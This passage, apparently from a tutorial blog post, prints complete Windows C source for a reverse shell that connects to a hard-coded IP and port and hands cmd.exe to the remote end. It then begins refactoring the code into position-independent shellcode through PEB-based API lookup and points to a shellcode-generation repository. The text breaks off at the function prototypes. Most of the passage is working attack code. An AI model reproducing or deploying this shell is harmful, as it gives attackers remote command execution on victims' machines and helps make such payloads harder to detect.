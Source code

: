 {% raw %}
//
// code inspired from https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html
// 
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#pragma comment(lib, "ws2_32")

int main(int argc, char* argv[]) 
{
    WSADATA wsaData;
    SOCKET wSock;
    struct sockaddr_in hax;
    STARTUPINFO sui;
    PROCESS_INFORMATION pi;

    char *ip = "192.168.1.87";
    short port = 1337;

    WSAStartup(MAKEWORD(2, 2), &wsaData);

    wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    hax.sin_family = AF_INET;
    hax.sin_port = htons(port);
    hax.sin_addr.s_addr = inet_addr(ip);

    WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&sui, 0, sizeof(sui));
    sui.cb = sizeof(sui);
    sui.dwFlags = STARTF_USESTDHANDLES;
    sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;

    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);

    WaitForSingleObject(pi.hProcess, INFINITE);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    closesocket(wSock);
    WSACleanup();

    return 0;
}
{% endraw %}

We can refactor all of the WinAPIs used in the above code to become position indepent, similar to the example above with `WSAStartup`. Below is the code that’s been refactored to be position independent (final code, along with the header file containing the PEB structures can be found on my github here: https://github.com/0xEct0/Shellcode-Generate/blob/main/code_templates/rev_shell.c )

{% raw %}
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
#include <string.h>
#include "peb_structs.h"

// 
// Macro to convert a character to lowercase
//
#define TO_LOWER(c) ( (c >= 'A' && c <= 'Z') ? (c + 'a' - 'A') : c )
#define MAKEWORD_MACRO(a, b) ((WORD)(((BYTE)((a) & 0xff)) | ((WORD)((BYTE)((b) & 0xff))) << 8))

//
// Function prototypes for module lookup and function lookup
// 
